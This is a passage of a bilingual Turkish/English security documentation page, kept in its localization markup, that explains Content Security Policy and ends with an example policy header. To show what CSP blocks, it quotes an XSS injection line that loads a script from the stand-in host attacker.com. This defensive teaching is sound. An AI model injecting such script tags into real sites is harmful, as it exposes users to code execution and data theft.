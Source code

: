 | <span data-ttu-id="bf3c2-153">**Adımları**</span><span class="sxs-lookup"><span data-stu-id="bf3c2-153">**Steps**</span></span> | <p><span data-ttu-id="bf3c2-154">İçerik güvenlik ilkesi (CSP), web uygulama sahipleri sitelerinde katıştırılmış içerik üzerinde denetime sahip olmasını sağlayan bir savunma güvenlik, standart, bir W3C mekanizmadır.</span><span class="sxs-lookup"><span data-stu-id="bf3c2-154">Content Security Policy (CSP) is a defense-in-depth security mechanism, a W3C standard, that enables web application owners to have control on the content embedded in their site.</span></span> <span data-ttu-id="bf3c2-155">CSP web sunucusundaki bir HTTP yanıt üst bilgisi olarak eklenir ve istemci tarafında tarayıcılar tarafından zorlanır.</span><span class="sxs-lookup"><span data-stu-id="bf3c2-155">CSP is added as an HTTP response header on the web server and is enforced on the client side by browsers.</span></span> <span data-ttu-id="bf3c2-156">Beyaz liste tabanlı bir ilke olduğunu - JavaScript yüklenebilir gibi bir Web sitesi hangi etkin içerik güvenilir etki alanlarından kümesi bildirebilirsiniz.</span><span class="sxs-lookup"><span data-stu-id="bf3c2-156">It is a whitelist-based policy - a website can declare a set of trusted domains from which active content such as JavaScript can be loaded.</span></span></p><p><span data-ttu-id="bf3c2-157">CSP aşağıdaki güvenlik avantajları sağlar:</span><span class="sxs-lookup"><span data-stu-id="bf3c2-157">CSP provides the following security benefits:</span></span></p><ul><li><span data-ttu-id="bf3c2-158">**XSS karşı koruma:** bir saldırgan, bir sayfa için XSS saldırılara açık olduğunda 2 yollarla yararlanabilir:</span><span class="sxs-lookup"><span data-stu-id="bf3c2-158">**Protection against XSS:** If a page is vulnerable to XSS, an attacker can exploit it in 2 ways:</span></span><ul><li><span data-ttu-id="bf3c2-159">Eklenmeye `<script>malicious code</script>`.</span><span class="sxs-lookup"><span data-stu-id="bf3c2-159">Inject `<script>malicious code</script>`.</span></span> <span data-ttu-id="bf3c2-160">Bu yararlanma CSP'ın temel kısıtlama-1 nedeniyle çalışmaz</span><span class="sxs-lookup"><span data-stu-id="bf3c2-160">This exploit will not work due to CSP’s Base Restriction-1</span></span></li><li><span data-ttu-id="bf3c2-161">Eklenmeye `<script src=”http://attacker.com/maliciousCode.js”/>`.</span><span class="sxs-lookup"><span data-stu-id="bf3c2-161">Inject `<script src=”http://attacker.com/maliciousCode.js”/>`.</span></span> <span data-ttu-id="bf3c2-162">Denetlenen saldırgan etki alanlarının CSP'ın beyaz olmayacaktır bu yana bu yararlanma çalışmaz</span><span class="sxs-lookup"><span data-stu-id="bf3c2-162">This exploit will not work since the attacker controlled domain will not be in CSP’s whitelist of domains</span></span></li></ul></li><li><span data-ttu-id="bf3c2-163">**Veri exfiltration üzerinde denetim:** bir Web sayfasındaki kötü amaçlı içerik bir dış Web sitesine bağlanmak ve verileri çalmaya çalışırsa, CSP tarafından bağlantı iptal edilecek.</span><span class="sxs-lookup"><span data-stu-id="bf3c2-163">**Control over data exfiltration:** If any malicious content on a webpage attempts to connect to an external website and steal data, the connection will be aborted by CSP.</span></span> <span data-ttu-id="bf3c2-164">Hedef etki alanına CSP'ın beyaz olmayacaktır Bunun nedeni</span><span class="sxs-lookup"><span data-stu-id="bf3c2-164">This is because the target domain will not be in CSP’s whitelist</span></span></li><li><span data-ttu-id="bf3c2-165">**Tıklatın jacking karşı savunma:** tıklatın jacking olduğundan, bir saldırganın, kullanıcı Arabirimi öğeleri tıklattığınızdan orijinal bir Web sitesi ve zorla kullanıcılar çerçeve kullanarak bir saldırı teknik.</span><span class="sxs-lookup"><span data-stu-id="bf3c2-165">**Defense against click-jacking:** click-jacking is an attack technique using which an adversary can frame a genuine website and force users to click on UI elements.</span></span> <span data-ttu-id="bf3c2-166">Şu anda tıklatın jacking korunmanın bir yanıt üstbilgisi-X-Frame-Options yapılandırılarak elde edilir.</span><span class="sxs-lookup"><span data-stu-id="bf3c2-166">Currently defense against click-jacking is achieved by configuring a response header- X-Frame-Options.</span></span> <span data-ttu-id="bf3c2-167">Tüm tarayıcılar bu başlığı dikkate alır ve iletme CSP giderek tıklatın jacking karşı korumak için standart bir biçimde olacaktır</span><span class="sxs-lookup"><span data-stu-id="bf3c2-167">Not all browsers respect this header and going forward CSP will be a standard way to defend against click-jacking</span></span></li><li><span data-ttu-id="bf3c2-168">**Gerçek zamanlı saldırı raporlama:** tarayıcılar ekleme saldırının CSP özellikli bir Web sitesi varsa, otomatik olarak Web sunucusu üzerinde yapılandırılmış bir uç nokta için bir bildirim tetikler.</span><span class="sxs-lookup"><span data-stu-id="bf3c2-168">**Real-time attack reporting:** If there is an injection attack on a CSP-enabled website, browsers will automatically trigger a notification to an endpoint configured on the webserver.</span></span> <span data-ttu-id="bf3c2-169">Bu şekilde, CSP gerçek zamanlı bir uyarı sistem olarak görev yapar.</span><span class="sxs-lookup"><span data-stu-id="bf3c2-169">This way, CSP serves as a real-time warning system.</span></span></li></ul> |

### <a name="example"></a><span data-ttu-id="bf3c2-170">Örnek</span><span class="sxs-lookup"><span data-stu-id="bf3c2-170">Example</span></span>
<span data-ttu-id="bf3c2-171">Örnek İlkesi:</span><span class="sxs-lookup"><span data-stu-id="bf3c2-171">Example policy:</span></span> 
```C#
Content-Security-Policy: default-src 'self'; script-src 'self' www.google-analytics.com 
```